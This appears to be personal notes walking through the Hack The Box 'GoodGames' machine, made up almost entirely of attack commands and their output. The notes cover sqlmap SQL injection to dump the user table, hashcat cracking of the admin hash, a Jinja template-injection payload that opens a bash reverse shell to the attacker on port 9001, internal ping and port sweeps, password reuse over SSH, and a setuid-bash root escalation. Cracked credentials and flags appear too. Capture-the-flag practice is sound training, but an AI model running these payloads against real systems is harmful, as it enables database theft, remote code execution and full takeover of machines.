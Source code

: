 ping 10.10.11.130
whatweb 10.10.11.130

echo "10.10.11.130 goodgames.htb" >> /etc/hosts

nmap -sCV -O 10.10.11.130

start Burp Suite
intercept /login page -> "copy to file" login.req

sqlmap -r login.req
sqlmap -r login.req --dbs
sqlmap -r login.req -D main --tables
sqlmap -r login.req -D main -T user --columns
sqlmap -r login.req -D main -T user --columns --dump

+----+-------+---------------------+----------------------------------+
| id | name  | email               | password                         |
+----+-------+---------------------+----------------------------------+
| 1  | admin | admin@goodgames.htb | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+----+-------+---------------------+----------------------------------+

nano hashes.txt
2b22337f218b2d82dfc3b6f77e7cb8ec

hashcat -m 0 hashes.txt ../rockyou
2b22337f218b2d82dfc3b6f77e7cb8ec:superadministrator


#web
login with admin account -> click settings

#terminal 1
echo "10.10.11.130 internal-administration.goodgames.htb" >> /etc/hosts

nc -nvlp 9001

#web
go to http://internal-administration.goodgames.htb/settings

change the full name to {{namespace.__init__.__globals__.os.popen('id').read()}} -> save all
check for results

{{namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/<kali ip>/9001 0>&1"').read()}} -> save all
get shell


#terminal 1
cd /home/augustus
cat user.txt -> get flag (af265edafeb6186bb10e70932f6a00d3)

for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done; -> get 172.19.0.1 and 172.19.0.2

for p in {1..65535}; do echo > /dev/tcp/172.19.0.1/$p && echo "$p open"; done 2>/dev/null -> get 80 and 22
ssh port is open

script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
reset
screen

ssh augustus:superadministrator@172.19.0.1

open a new root (docker) shell in another terminal using the same method as above

#terminal 1
cp /bin/bash .
ls -la -> check auguster on bash

#terminal 2
chown root:root bash
chmod 4777 bash
ls -la -> check root and permissons (-rwsrwxrwx) on bash
./bash -p

cat /root/root.txt -> get flag (e6277a3ec76e27f2b9a03a53e6e1c891)